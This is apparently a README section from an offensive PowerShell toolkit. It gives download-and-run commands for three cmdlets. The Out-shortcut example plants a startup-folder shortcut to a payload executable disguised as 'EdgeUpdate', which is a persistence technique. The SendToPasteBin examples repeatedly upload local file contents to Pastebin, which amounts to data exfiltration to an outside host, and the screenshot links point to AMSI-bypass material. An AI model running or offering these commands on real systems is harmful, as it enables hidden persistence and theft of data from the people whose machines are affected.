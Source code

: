 ## Open-Directory.ps1 - Under Develop (not stable)

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Open-Directory|Use GUI to open the sellected directory|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

**Download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Open-Directory.ps1" -OutFile "Open-Directory.ps1"
```

**execute:**
```powershell
.\Open-Directory.ps1
```

<br />

## Out-shortcut.ps1 - Under Develop (not stable)
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Out-shortcut|Creates an shortcut file that accepts cmdline arguments to execute|User Land|[Disable-Amsi cmdlet Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-shortcut.ps1" -OutFile "Out-shortcut.ps1"
```

**execute:**
```powershell
#Create shortcut pointing to '$Env:TMP\Payload.exe' on startup folder with 'EdgeUpdate' description
.\Out-Shortcut.ps1 -shortcut "$Env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" -target "$Env:TMP\Payload.exe" -description "EdgeUpdate"
```   

<br />

## SendToPasteBin.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|SendToPasteBin|Get filepath contents and paste it to pastebin.|User Land||[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.ps1" -OutFile "SendToPasteBin.ps1"
```

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

**execute:**
```powershell
Get-Help .\SendToPasteBin.ps1 -full

#Get the contents of -filepath 'string' and creates a new pastebin paste from it on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"

#Get the contents of -filepath 'string' and creates a new pastebin paste from it each 120 seconds a max of 10 pastes on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -timeout "120" -maxpastes "10" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"
```   
